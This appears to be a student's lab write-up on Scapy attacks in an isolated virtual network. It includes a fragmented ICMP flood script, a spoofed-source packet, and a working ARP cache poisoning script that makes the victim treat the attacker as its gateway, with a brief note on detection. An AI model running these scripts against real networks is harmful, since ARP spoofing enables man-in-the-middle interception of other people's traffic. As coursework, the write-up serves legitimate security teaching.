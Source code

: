 ##Lab 6 - Scapy Attacks on ARP (leading to MITM)

As in the previous lab, I have two Ubuntu VM's on an internal network with m0n0wall assigning IPs via DHCP.

Artist's rendering:

                  Attacker                  Target
             _______________          |*\_/*|________
            |  ___________  |        ||_/-\_|______  |
            | |           | |        | |           | |
            | |   0   0   | |        | |   0   0   | |
            | |     -     | |        | |     -     | |
            | |   \___/   | |        | |   \___/   | |
            | |___     ___| |        | |___________| |
            |_____|\_/|_____|        |_______________|
            _|__|/ \|_|_.............._|________|_
             / ********** \      |    / ********** \
            /  ************  \   |   /  ************  \
            -------------------- |  --------------------
                                 |
                                 |
                                 |
                   __/ ///////// /|
                  /              ¯/|
                 /_______________/ |
                |  __________  |  |
                | |          | |  |
                | | m0n0wall | |  |
                | |          | |  |
                | |__________| | /   
                |______________|/ ___/\
                |____>______<_____/     \
              / = ==== ==== ==== /|    _|_
            / ========= === ===/ /   ////
           / ========= === ===/ /   /  / 
          <__________________<_/    ¯¯¯


Warmup Exercise (A): <code>fragment(IP(dst=target)/ICMP()/("DEADBEEF"*25000))</code>

This command will send the payload of "DEADBEEF" 25000 times to the target machine.  By adding in a fragsize, it will fragment into byte segments of 500.

I found an elegant way to do this here [1]:

Note: <code> from scapy.all import *</code> is necessary as <code>from scapy import *</code> doesn't import the modules for my machine

      from scapy.all import *
      import netifaces as nt
      import sys
      
      target="192.168.1.104"
      packet = fragment(IP(dst=target)/ICMP()/("DEADBEEF" * 25000))
      frags=fragment(packet,fragsize=500)
      counter=1
      for fragment in frags:
            print "Packet number"+str(counter)
            print "======================================================="
            fragment.show() #displays each fragment
            counter+=1
            send(fragment)

![Scapy - Nice display!](/images/Lab6-DEADBEEF.png)

The attacking machine sent 406 packets with the payload "DEADBEEF" and it set the MF (More Fragment) bit flag.

Warmup Exercise (B):  <code>IP(src=target,dst=target)/TCP(sport=135,dport=135)</code>
From the attacker side, spoofing the source of the packet:

![Spoofed source](/images/Lab6-spoofed_src_and_des.png)

On the target side I did <code>sudo tcpdump -vv icmp</code> for Warmup Exercise 1 (with the payload) and received the following when attacked from first Ubuntu machine:

![DEADBEEF payload on target!](/images/Lab6-DEADBEEF_on_target.png)

**_Q1: What are the IP/MAC addresses of each VM and the host? Comment on the three pairs of addresses, their relationship to each other; how might these values have been assigned? What do the VMs and host believe is the default gateway?_**

The attacking machine has an IP of 192.168.1.105.  The target has 192.168.1.104.  m0n0wall has an IP of 192.168.1.1 and it's the known gateway for both Ubuntu machines.  m0n0wall assigns the IPs via DHCP that I set up using its GUI.

**_Q2. Examine the arp table (arp –a –n) on VM#1 and report any entries you find._**

I did some research on ARP with <code>man arp</code>.
Unfortunately <code>arp –a –n</code> complains that "-a" is an unknown host but <code>arp</code> provides the table fine.
The only entry is that of the m0n0wall gateway.

**_Q3. Ping VM#2 from VM#1 and report any changes to the state of the ARP table after the ping._**

Before pinging the target machine, there was only the gateway registered in the cache, but after a successful ping the target with its MAC address was registered in the ARP cache.

**_Q4. Manually delete the entry for the VM#2 machine in VM#1s ARP table (arp –d <ip>). Then, run tcpdump or wireshark on VM#2 to view the network traffic. Ping VM#2 again from VM#1. Report on the traffic that you see and use it to explain the way in which VM#1 obtains VM#2's MAC address._**

<code>arp -d 192.168.1.104</code> successfully removed the entry.

<code>tcpdump -vv icmp</code> on the target machine revealed:

![tcpdump of ping](/images/Lab6-tcpdump_ping.png)

**_Q5. From VM#1, using everything observed so far, determine the MAC address of the gateway._**

I believe when I used dhclient to get an IP on boot it registered the MAC address of the gateway in the ARP cache:
m0n0wall.local has a MAC address of 08:00:27:f2:0f:ab

**_Q6. Complete the program by adding lines to the arp_callback method so as to fully specify the ARP reply; you can list the fields in an ARP packet by doing ls(ARP) in Scapy. Explain the rationale for each of your lines of code._**

So far, I have:

    arpout = ARP(op=1, hwdst="impersonating_mac",hwsrc=target_mac, pdst=192.168.1.104)
but I need to fully specify the rest of the values.  Also:

Note to self:

Look into using scapy's <code>arpcachepoison()</code>

Edit: No success with arpcachepoison with either specifying MACs or IPs.

Upon troubleshooting some errors in coding and other little things I realized that the biggest problem was that my two Ubuntu machines had the same MAC address--that will certainly confound the exercise.

After changing the MAC on my attacker machine, it didn't immediately come up until I pulled it up with:
    ifconfig -a
    ifconfig eth3 up

I am getting an ARP request.  There is a name resolution problem.  Perhaps I need a fourth VM that the target VM doesn't know about so that the attack machine can fulfill the request?
![Problem with Name Resolution](/images/Lab6-problem-name_resolution.png)

To clear the target VM's arp cache we can run:

    ip -s -s neigh flush all

The following header with explicit encoding was necessary:

    #!/usr/bin/env python # coding: utf-8
    
    
With the following code I believe I successfully placed the attacking VM into the poisoned ARP cache of the victim machine.
~~~~
#!/usr/bin/env python # coding: utf-8

###The SCAPY script (arpy.py) sees an ARP request from 
###the target machine (for any IP) and then responds to the ARP request
###with a crafted reply that provides the attacker’s MAC address.
###In doing so, the victim is fooled into believing that the requested IP resolves 
###in the local segment to the attacker’s MAC address.


from scapy.all import *
#### Adapt the following settings ####
conf.iface = 'eth3'
###
attack_IP = "192.168.1.105"
attack_mac = "08:00:27:f6:b4:f6"
target_mac = "08:00:27:4a:3e:fa"
target_ip = sys.argv[1]
impersonating_mac = sys.argv[2]
gw_IP = "192.168.1.1"
gw_mac = "08:00:27:f2:0f:ab"

#call the function whenever a new arp packet is sniffed
def arp_callback(pkt):
	#make sure it's arp, a request, and the target is the one asking
	if ARP in pkt and pkt[ARP].op==1 and pkt[ARP].psrc==target_ip:
		#get the packet
		arpin = pkt[ARP]
		#show it
		print("Received an ARP request")
		arpin.display()
		arpout = ARP()
		#make the reply arp packet
		arpout = Ether()/ARP(op="who-has", psrc=gw_IP, pdst=sys.argv[1], hwdst=target_mac)
		print("Sending an ARP reply")
		arpout.display()

		send(arpout, inter=2, loop=1)
		return arpout.sprintf("ARP reply sent!")
		
#main program

if len(sys.argv) !=3:
	print "Usage: ./arpy.py <target_IP> <impersonating_mac>"
	sys.exit(1)

#wait for up to 10 arps and call the arp_callback for each
while True:
	sniff(prn=arp_callback, filter="arp", count= 10)
~~~~	

The ARP response from the attacking machine:

![ARP Response on attacking machine](/images/Lab6-ARP_response.png)

The victim machine now thinks that the attacker is the gateway.  So when the victim tries to ping a non-existent 192.168.1.103, the response is from the attacking machine:
![Victim machine now thinks the attacker is the gateway](/images/Lab6-Thinks_attacker_is_gw.png)

The target's ARP cache has been successfully poisoned:
![ARP cache successfully poisoned](/images/Lab6-ARP_cache_poisoned.png)

**_Q7: Suppose that as a network administrator you wanted to write a SCAPY script that would detect an ARP spoofing attack such as the one conducted by arp.py. Give a high-level description of how your SCAPY script would work._**

I would look into work that has already been done in Bro scripting or another comparable IDS. [2]  I would look into current research into _active_ techniques to check each machine's ARP cache for suspicious gateways.  As far as using Scapy for this, I'd be happy to see how exactly this can be done!





[1]: http://rtoodtoo.net/fragmented-ip-packet-forwarding/
[2]: https://github.com/maxfeldman14/brospects/blob/master/arpspoof.bro
